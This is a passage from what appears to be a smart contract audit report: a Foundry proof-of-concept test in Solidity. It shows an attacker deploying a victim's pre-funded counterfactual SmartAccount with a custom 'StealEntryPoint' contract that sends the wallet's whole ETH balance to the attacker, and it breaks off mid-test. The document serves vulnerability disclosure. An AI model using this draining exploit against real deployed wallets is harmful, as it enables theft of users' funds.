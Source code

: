 ```solidity
contract StealEntryPoint {
    function steal(SmartAccount wallet) public {
        uint256 balance = address(wallet).balance;

        wallet.execFromEntryPoint(
            msg.sender, // address dest
            balance, // uint value
            "", // bytes calldata func
            Enum.Operation.Call, // Enum.Operation operation
            gasleft() // uint256 gasLimit
        );
    }
}

contract AuditTest is Test {
    bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;

    uint256 bobPrivateKey = 0x123;
    uint256 attackerPrivateKey = 0x456;

    address deployer;
    address bob;
    address attacker;
    address entrypoint;
    address handler;

    SmartAccount public implementation;
    SmartAccountFactory public factory;
    MockToken public token;

    function setUp() public {
        deployer = makeAddr("deployer");
        bob = vm.addr(bobPrivateKey);
        attacker = vm.addr(attackerPrivateKey);
        entrypoint = makeAddr("entrypoint");
        handler = makeAddr("handler");

        vm.label(deployer, "deployer");
        vm.label(bob, "bob");
        vm.label(attacker, "attacker");

        vm.startPrank(deployer);
        implementation = new SmartAccount();
        factory = new SmartAccountFactory(address(implementation));
        token = new MockToken();
        vm.stopPrank();
    }
    
    function test_SmartAccountFactory_StealCounterfactualWallet() public {
        uint256 index = 0;
        address counterfactualWallet = factory.getAddressForCounterfactualWallet(bob, index);
        // Simulate Bob sends 1 ETH to the wallet
        uint256 amount = 1 ether;
        vm.deal(counterfactualWallet, amount);

        // Attacker deploys counterfactual wallet with a custom entrypoint (StealEntryPoint)
        vm.startPrank(attacker);

        StealEntryPoint stealer = new StealEntryPoint();

        address proxy = factory.deployCounterFactualWallet(bob, address(stealer), handler, index);
        SmartAccount wallet = SmartAccount(payable(proxy));
```